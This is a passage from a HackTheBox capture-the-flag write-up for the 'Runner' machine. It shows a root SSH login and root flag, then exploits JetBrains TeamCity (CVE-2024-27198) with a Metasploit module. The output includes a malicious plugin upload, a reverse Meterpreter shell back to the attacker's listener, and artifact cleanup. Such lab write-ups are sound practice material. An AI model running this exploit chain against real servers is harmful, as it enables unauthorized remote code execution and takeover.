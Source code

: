 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ ssh -i bravosec root@$(pt get rhost)
[...]
root@runner:~# id
uid=0(root) gid=0(root) groups=0(root)
root@runner:~# cat root.txt
500c74d6f74591fb086d785fa9559de5
```

# Additional
---

## 80 - JetBrains TeamCity : Auth bypass to RCE w/ metasploit (CVE-2024-27198)

```bash
use multi/http/jetbrains_teamcity_rce_cve_2024_27198
setg lhost tun0
set RHOSTS teamcity.runner.htb
set RPORT 80
exploit
```

```bash
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 10.10.14.107:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.Rlc2bFhmQ2xNTUNfVG1RZ011aUtjQUV1UmZv.ZTliYzg1MzItM2U0Ni00YjYyLWEyNzgtMDFmNzc3ZDY0NGU5
[*] Uploading plugin: BpMLePcV
[*] Sending stage (57971 bytes) to 10.10.11.13
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/work/Catalina/localhost/ROOT/TC_129390_BpMLePcV
[*] Deleting the authentication token...
[+] Deleted /data/teamcity_server/datadir/system/caches/plugins.unpacked/BpMLePcV
[*] Meterpreter session 1 opened (10.10.14.107:4444 -> 10.10.11.13:47074) at 2024-04-26 12:16:22 +0800
[!] This exploit may require manual cleanup of '/opt/teamcity/webapps/ROOT/plugins/BpMLePcV' on the target

meterpreter > getuid
Server username: tcuser
```